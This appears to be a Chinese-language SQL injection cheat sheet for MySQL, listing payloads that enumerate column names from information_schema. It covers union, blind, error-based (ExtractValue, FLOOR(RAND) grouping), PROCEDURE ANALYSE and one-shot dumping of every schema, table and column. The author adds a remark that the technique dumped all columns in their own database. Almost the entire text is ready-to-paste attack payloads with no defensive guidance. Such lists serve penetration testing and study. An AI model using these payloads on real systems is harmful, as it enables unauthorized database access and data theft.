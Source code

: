 **检索列名**

**union**

```text
UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename'
```

**Blind**

```text
AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'
```

**Error**

```text
AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),FLOOR(RAND(0)*2)))
(@:=1)||@ GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),!@) HAVING @||MIN(@:=0);
AND ExtractValue(1, CONCAT(0x5c, (SELECT column_name FROM information_schema.columns LIMIT 1)));-- Available in MySQL 5.1.5
AND (1,2,3) = (SELECT * FROM SOME_EXISTING_TABLE UNION SELECT 1,2,3 LIMIT 1)-- Fixed in MySQL 5.1
AND (SELECT * FROM (SELECT * FROM SOME_EXISTING_TABLE JOIN SOME_EXISTING_TABLE b) a)
AND (SELECT * FROM (SELECT * FROM SOME_EXISTING_TABLE JOIN SOME_EXISTING_TABLE b USING (SOME_EXISTING_COLUMN)) a)
```

**PROCEDURE ANALYSE**

```text
PROCEDURE ANALYSE()
Web应用程序需要在要注入的SQL查询中显示所选列之一。

Example:
sql语句： SELECT username, permission FROM Users WHERE id = 1;

1 PROCEDURE ANALYSE()    得到第一个列名
1 LIMIT 1,1 PROCEDURE ANALYSE()    得到第二个列名
1 LIMIT 2,1 PROCEDURE ANALYSE()    得到第三个列名
```

**一次检索多个表/列**

```text
SELECT (@) FROM (SELECT(@:=0x00),(SELECT (@) FROM (information_schema.columns) WHERE (table_schema>=@) AND (@)IN (@:=CONCAT(@,0x0a,' [ ',table_schema,' ] >',table_name,' > ',column_name))))x
```

example:

![wing](http://hackerwing.com/6e435e65fd938041d58dba041e801097.png) ![wing](http://hackerwing.com/bf20b21fc0a285a13cbb7956ff97cf55.png) 我数据库里面所有列都跑出来了，这招很有用。

```text
SELECT MID(GROUP_CONCAT(0x3c62723e, 0x5461626c653a20, table_name, 0x3c62723e, 0x436f6c756d6e3a20, column_name ORDER BY (SELECT version FROM information_schema.tables) SEPARATOR 0x3c62723e),1,1024) FROM information_schema.columns
```
